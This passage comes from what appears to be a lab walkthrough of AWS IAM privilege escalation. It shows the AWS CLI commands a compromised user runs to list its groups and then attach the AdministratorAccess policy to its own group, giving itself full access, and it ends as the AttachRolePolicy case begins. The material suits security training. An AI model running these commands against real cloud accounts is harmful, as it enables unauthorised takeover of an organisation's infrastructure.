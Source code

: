 ```bash
# List groups of specified user:
aws iam list-groups-for-user --user-name privesc8-AttachGroupPolicy-user

# List policies attached to the specified group
aws iam list-attached-group-policies --group-name privesc8-AttachGroupPolicy-group
```

![](/assets/img/posts/aws-priv-esc-02/case-08-03-Getting-Details-of-Our-Groups.png)
_Get details of groups for a specific user_

Our compromised user is part of the `privesc8-AttachGroupPolicy-group` group which does not have any policy attached to it... yet :)

Since we know the group we are part of, let's attach the same old `AdministratorAccess` policy to have full access:

```bash
aws iam attach-group-policy --group-name privesc8-AttachGroupPolicy-group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc8
```

![](/assets/img/posts/aws-priv-esc-02/case-08-04-Attaching-Group-Policy-and-Checking.png)
_Attaching AdministratorAccess Policy to a specified group_

If you see the 2nd command in the above image, our group now has an `AdministratorAccess` policy attached which eventually means our compromised user (and any user who is part of this group) has elevated privileges now.

## IAM-AttachRolePolicy
The `IAM-AttachRolePolicy` permission allow a principal to attach a `managed` policy to a role (defined in the policy document).
